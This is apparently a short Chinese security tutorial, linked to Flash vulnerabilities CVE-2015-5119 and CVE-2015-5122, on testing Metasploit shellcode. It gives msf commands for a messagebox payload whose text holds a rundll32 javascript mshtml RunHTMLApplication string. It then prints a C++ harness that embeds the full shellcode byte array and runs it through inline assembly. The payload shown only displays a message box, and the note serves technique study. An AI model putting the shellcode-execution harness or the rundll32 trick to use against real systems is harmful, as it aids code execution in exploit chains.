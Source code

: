 **结合漏洞：**`CVE-2015-5119&CVE-2015-5122`

**细节可参考：**[http://zone.wooyun.org/content/21586](http://zone.wooyun.org/content/21586)

使用`vc6.0`测试msf shellcode的技巧：

### 1、以messagebox举例

**msf：**

```
use windows/messagebox
set TEXT rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";
generate -t c

```

如图![Alt text](http://drops.javaweb.org/uploads/images/eb8c0c04454e98aeeb8ece508f3ee35d93803a7c.jpg)

不难看出msf也存在转义字符

放在c++中测试msf shellcode，代码如下

```
#include "stdafx.h"

int main(int argc,char *argv[]) 
{ 
unsigned char buf[] = 
"\xd9\xeb\x9b\xd9\x74\x24\xf4\x31\xd2\xb2\x77\x31\xc9\x64\x8b"
"\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x46\x08\x8b\x7e\x20\x8b"
"\x36\x38\x4f\x18\x75\xf3\x59\x01\xd1\xff\xe1\x60\x8b\x6c\x24"
"\x24\x8b\x45\x3c\x8b\x54\x28\x78\x01\xea\x8b\x4a\x18\x8b\x5a"
"\x20\x01\xeb\xe3\x34\x49\x8b\x34\x8b\x01\xee\x31\xff\x31\xc0"
"\xfc\xac\x84\xc0\x74\x07\xc1\xcf\x0d\x01\xc7\xeb\xf4\x3b\x7c"
"\x24\x28\x75\xe1\x8b\x5a\x24\x01\xeb\x66\x8b\x0c\x4b\x8b\x5a"
"\x1c\x01\xeb\x8b\x04\x8b\x01\xe8\x89\x44\x24\x1c\x61\xc3\xb2"
"\x08\x29\xd4\x89\xe5\x89\xc2\x68\x8e\x4e\x0e\xec\x52\xe8\x9f"
"\xff\xff\xff\x89\x45\x04\xbb\x7e\xd8\xe2\x73\x87\x1c\x24\x52"
"\xe8\x8e\xff\xff\xff\x89\x45\x08\x68\x6c\x6c\x20\x41\x68\x33"
"\x32\x2e\x64\x68\x75\x73\x65\x72\x30\xdb\x88\x5c\x24\x0a\x89"
"\xe6\x56\xff\x55\x04\x89\xc2\x50\xbb\xa8\xa2\x4d\xbc\x87\x1c"
"\x24\x52\xe8\x5f\xff\xff\xff\x68\x6f\x78\x58\x20\x68\x61\x67"
"\x65\x42\x68\x4d\x65\x73\x73\x31\xdb\x88\x5c\x24\x0a\x89\xe3"
"\x68\x3b\x58\x20\x20\x68\x69\x6f\x6e\x20\x68\x69\x63\x61\x74"
"\x68\x41\x70\x70\x6c\x68\x48\x54\x4d\x4c\x68\x2c\x52\x75\x6e"
"\x68\x68\x74\x6d\x6c\x68\x2e\x2e\x6d\x73\x68\x69\x70\x74\x3a"
"\x68\x61\x73\x63\x72\x68\x20\x6a\x61\x76\x68\x2e\x65\x78\x65"
"\x68\x6c\x6c\x33\x32\x68\x72\x75\x6e\x64\x31\xc9\x88\x4c\x24"
"\x35\x89\xe1\x31\xd2\x52\x53\x51\x52\xff\xd0\x31\xc0\x50\xff"
"\x55\x08";
__asm{
        lea eax,buf
        call eax
    }
    return 0;
}

```
